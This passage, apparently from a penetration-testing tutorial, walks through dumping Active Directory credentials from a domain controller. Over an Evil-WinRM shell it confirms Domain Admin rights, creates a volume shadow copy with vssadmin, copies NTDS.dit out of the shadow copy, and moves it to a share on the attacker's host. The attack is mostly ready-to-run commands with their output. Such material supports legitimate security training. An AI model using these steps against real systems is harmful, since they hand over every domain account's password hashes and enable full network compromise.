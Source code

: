 ```shell-session

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/14/2022 2:07:49 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
The command completed successfully.
```

This account has both Administrators and Domain Administrator rights which means we can do just about anything we want, including making a copy of the NTDS.dit file.

#### <mark style="color:green;">**Creating Shadow Copy of C:**</mark>

**We can use `vssadmin` to create a** [**Volume Shadow Copy**](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) **(`VSS`)** of the C: drive or whatever volume the admin chose when initially installing AD. It is very likely that NTDS will be stored on C: as that is the default location selected at install, but it is possible to change the location.&#x20;

We use VSS for this because it is designed to make copies of volumes that may be read & written to actively without needing to bring a particular application or system down. VSS is used by many different backup & disaster recovery software to perform operations.

```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```

<mark style="color:orange;">**Copying NTDS.dit from the VSS**</mark>

We can then copy the NTDS.dit file from the volume shadow copy of C: onto another location on the drive to prepare to move NTDS.dit to our attack host.

{% code overflow="wrap" fullWidth="true" %}
```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

        1 file(s) copied.
```
{% endcode %}

<mark style="color:orange;">**Transferring NTDS.dit to Attack Host**</mark>

Now `cmd.exe /c move` can be used to move the file from the target DC to the share on our attack host.

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 

        1 file(s) moved.		
```
